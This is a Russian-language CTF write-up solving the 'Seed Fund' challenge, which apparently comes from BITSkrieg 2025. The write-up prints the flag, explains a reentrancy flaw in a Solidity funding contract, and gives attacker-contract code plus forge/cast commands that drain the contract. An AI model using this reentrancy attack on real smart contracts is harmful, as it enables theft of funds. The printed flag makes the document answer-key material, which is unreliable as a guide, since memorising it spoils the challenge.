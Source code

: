 # Seed Fund

Флаг: BITSCTF{Crypt0_M1lli0n4ir3_14e3fd12}

---

Категория: misc
Уровень сложности: Средний
Использованные инструменты: [foundry](https://book.getfoundry.sh/)

Суть задания: дан [смарт-контракт](https://github.com/mtchuikov/ctfs/tree/main/2025/BITSkrieg/assets/AngelInvestor.sol), написанный на Solidity. Для получения флага необходимо взломать его, выведя часть средств с баланса.

Примечание: во время соревнования для каждого пользователя контракт развертывался в отдельной тестовой сети со стартовым балансом в 500 ETH. Участнику выдавался заранее сгенерированный кошелек с небольшой суммой ETH. 

---
Решение:

В предложенном для взлома контракте есть функция `isChallSolved`, которая определяет условия, при наличии которых задание считается выполненным. В данном случае нам нужно сделать так, чтобы баланс адреса, вызывающего ее, был больше чем значение переменной контракта `CHALLENGE_THRESHOLD`, равное 100 ETH. Добиться желаемого результата можно только взломав его, ведь наш стартовый баланс небольшой и нет других путей его увеличить.

Анализ кода показал наличие нескольких функций, которые способны передавать баланс от аккаунта контракта к пользователю: `applyForFunding` и `buyCompany`. Однако изучать вторую из них более детально не имеет смысла, поскольку ее вызовы ограничены модификатором `onlyInvestor`, аналогичным по функционалу с модификатором [onlyOwner](https://docs.openzeppelin.com/contracts/5.x/api/access#Ownable-onlyOwner--) , разрешающим взаимодействие с ней только, по-сути, владельцу контракт.

```
    ...
    modifier onlyInvestor() {
        require(msg.sender == investor, "Only investor can perform this");
        _;
    }

    constructor() payable {
        investor = msg.sender;
        totalFunds = address(this).balance;
    }
    ...
```

Однако первая функция, `applyForFunding`, действительно, содержит уязвимость. Как можно заметить, изменения состояния переменной `hasReceivedFunding`, обозначающей то, что средства уже переводились пользователю, происходит только после самого перевода средств.

```
    ...
    function applyForFunding(uint256 equityOffered) external {
        require(equityOffered > 0 && equityOffered <= 7, "Equity offered must be between 1% and 7%");
        // защита от многократного перевода ETH
        require(!startups[msg.sender].hasReceivedFunding, "Already funded");

        uint256 fundingAmount = equityOffered * 3 ether;
        require(fundingAmount <= 21 ether, "Cannot exceed 21 ETH funding");
        require(totalFunds >= fundingAmount, "Not enough funds available");

        // перевод средств пользователю
        (bool success,) = msg.sender.call{value: fundingAmount}("");
        require(success, "Funding transfer failed");

        totalFunds -= fundingAmount;
        startups[msg.sender].fundingAmount += fundingAmount;
        startups[msg.sender].equityOffered = equityOffered;
        // устанавливаем значение переменной, показывающее, что ETH уже переводился
        startups[msg.sender].hasReceivedFunding = true;
    }
    ...
```

Такое поведение - перевод ETH на любой аккаунт, включая принадлежащий смарт-контракту, а также изменение состояния только после перевода - явно указывает на наличие уязвимости, известной как [Reentrancy](https://docs.soliditylang.org/en/latest/security-considerations.html), которая заключается в непредусмотренном логикой программы повторном вызове функции до того, как интеракция полностью завершиться. Схематично она может быть представлена следующим образом:

![reentrancy schema](https://github.com/mtchuikov/ctfs/blob/main/2025/BITSkrieg/assets/reentrancy.png?raw=true)

В нашем случае атака реализуется весьма тривиально (полный код [контракта](https://github.com/mtchuikov/ctfs/tree/main/2025/BITSkrieg/assets/AngelInvestorAttack.sol)):

```
    ...
    function attack() external onlyOwner {
        target.applyForFunding(7);
        // ETH поступает на аккаунт контракта, поэтому нужно вызвать эту функцию из него.
        // В противном случае удовлетворить ее условиям не получится.
        target.isChallSolved();
    }

    receive() external payable {
        // Задаем условия выхода из цикла вызовов. Если этого не сделать, то функция будет
        // вызывать бесконечно до тех пор, пока не завершится с ошибкой.
        if (address(this).balance < target.CHALLENGE_THRESHOLD()) {
            target.applyForFunding(7);
        }
    }
    ...
``` 

Остается только развернуть контракт при помощи утилиты из набора [foundry](https://book.getfoundry.sh/) `forge create --rpc-url SET_RPC_URL --private-key SET_PRIVATE_KEY --constructor-args SET_TARGET_CONTRACT --broadcast SET_PATH_TO_REENTRANCY_CONTRACT:Reentrancy ` и выполнить вызов функции `attack` для начала атаки `cast send SET_REENTRANCY_CONTRACT "attack()" --private-key SET_PRIVATE_KEY --rpc-url RPC_URL`.

